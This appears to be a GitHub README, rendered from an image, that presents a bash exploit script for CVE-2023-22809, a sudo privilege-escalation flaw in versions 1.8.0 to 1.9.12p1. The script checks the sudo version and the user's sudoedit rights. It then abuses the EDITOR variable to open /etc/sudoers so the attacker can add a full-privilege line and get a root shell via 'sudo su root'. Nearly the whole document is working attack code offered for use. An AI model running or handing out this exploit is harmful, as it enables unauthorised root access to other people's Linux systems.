 ## Table of Contents

- [Exploit Title: sudo 1.8.0 - 1.9.12p1 - Privilege Escalation](#exploit\title:\sudo\1.8.0\-\1.9.12p1\-\privilege\escalation)
- [](#)
- [Exploit Author: n3m1.sys](#exploit\author:\n3m1.sys)
- [CVE: CVE-2023-22809](#cve:\cve-2023-22809)
- [Date: 2023/01/21](#date:\2023/01/21)
- [Vendor Homepage: https://www.sudo.ws/](#vendor\homepage:\https://www.sudo.ws/)
- [Software Link: https://www.sudo.ws/dist/sudo-1.9.12p1.tar.gz](#software\link:\https://www.sudo.ws/dist/sudo-1.9.12p1.tar.gz)
- [Version: 1.8.0 to 1.9.12p1](#version:\1.8.0\to\1.9.12p1)
- [Tested on: Ubuntu Server 22.04 - vim 8.2.4919 - sudo 1.9.9](#tested\on:\ubuntu\server\22.04\-\vim\8.2.4919\-\sudo\1.9.9)
- [Running this exploit on a vulnerable system allows a localiattacker to gain](#running\this\exploit\on\a\vulnerable\system\allows\a\localiattacker\to\gain)
- [a root shell on the machine.](#a\root\shell\on\the\machine.)
- [The exploit checks if the current user has privileges to run sudoedit or](#the\exploit\checks\if\the\current\user\has\privileges\to\run\sudoedit\or)
- [sudo -e on a file as root. If so it will open the sudoers file for the](#sudo\-e\on\a\file\as\root.\if\so\it\will\open\the\sudoers\file\for\the)
- [attacker to add a line to gain privileges on all the files and get a root](#attacker\to\add\a\line\to\gain\privileges\on\all\the\files\and\get\a\root)
- [shell.](#shell.)

```
bash exploit.sh
```

  

```
#!/usr/bin/env bash
#
# Exploit Title: sudo 1.8.0 - 1.9.12p1 - Privilege Escalation
# 
# Exploit Author: n3m1.sys
# CVE: CVE-2023-22809
# Date: 2023/01/21
# Vendor Homepage: https://www.sudo.ws/
# Software Link: https://www.sudo.ws/dist/sudo-1.9.12p1.tar.gz
# Version: 1.8.0 to 1.9.12p1
# Tested on: Ubuntu Server 22.04 - vim 8.2.4919 - sudo 1.9.9
#
# Running this exploit on a vulnerable system allows a localiattacker to gain 
# a root shell on the machine.
#
# The exploit checks if the current user has privileges to run sudoedit or 
# sudo -e on a file as root. If so it will open the sudoers file for the
# attacker to add a line to gain privileges on all the files and get a root 
# shell.

if ! sudo --version | head -1 | grep -qE '(1\.8.*|1\.9\.[0-9]1?(p[1-3])?|1\.9\.12p1)$'
then
    echo "> Currently installed sudo version is not vulnerable"
    exit 1
fi

EXPLOITABLE=$(sudo -l | grep -E "sudoedit|sudo -e" | grep -E '\(root\)|\(ALL\)|\(ALL : ALL\)' | cut -d ')' -f 2-)

if [ -z "$EXPLOITABLE" ]; then
    echo "> It doesn't seem that this user can run sudoedit as root"
    read -p "Do you want to proceed anyway? (y/N): " confirm && [[ $confirm == [yY] ]] || exit 2
else
    echo "> BINGO! User exploitable"
fi

echo "> Opening sudoers file, please add the following line to the file in order to do the privesc:"
echo "$USER ALL=(ALL:ALL) ALL"
read -n 1 -s -r -p "Press any key to continue..."
EDITOR="vim -- /etc/sudoers" $EXPLOITABLE
```

```
sudo su root
```
